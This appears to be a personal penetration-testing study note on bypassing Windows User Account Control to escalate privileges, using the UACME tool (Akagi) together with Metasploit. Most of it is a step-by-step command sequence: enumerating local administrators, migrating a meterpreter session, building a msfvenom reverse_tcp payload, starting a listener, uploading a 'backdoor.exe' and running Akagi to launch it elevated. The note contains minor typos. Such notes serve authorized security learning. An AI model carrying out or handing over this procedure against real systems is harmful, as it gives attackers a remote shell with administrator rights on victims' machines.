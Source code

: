 
User Account Control, related to [[Privilege Escalation]] and [[Post Exploitation]]s

It's a very efficient privilege scalation vector.

We will need a user that is part of the local windows administrators

https://github.com/hfiref0x/UACME

We can check the admin groups:

``` bash
net localgroup administrators
```

The UAC by default isnt on the highest setting,we can change it with the UAC panel.

Once we have an initial session we can search processes using

``` bash
pgrep [name]
```

For example if we want to use a x64 architecture we can use

``` bash
pgrep explorer
migrate [STDOUT of previous]
```

We can see who we are and our pivileges with 

``` bash
getuid
getprivs
```

Then we can use 

``` bash
shell
```

To spawn a shell and with

``` bash
net user
```

enumerate all users

Once we verify we are part of local administrators we need to bypass UAC because we cannot click the consent form from a shell

We can use either Akagi32 or Akagi64 depending on our architecture

We also need to setup a msfvenom payload

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[lIP] LPORT=[lPORT] -f exe > [outputfilename].exe
```

Then in [[Metasploit]]

``` bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOSTS [lIP]
set LPORT [lPORT]
run
```

To start the listener.

Then back at the meterpreter session:

``` bash
cd C:\\
mkdir Temp
cd Temp
upload backdoor.exe
upload /root/Desktop/tools/UACME/Akagi[v].exe
shell
.\Akagi[v].exe [Key (23)] [backdoorpath (C:\Temp\backdoor.exe)]
```

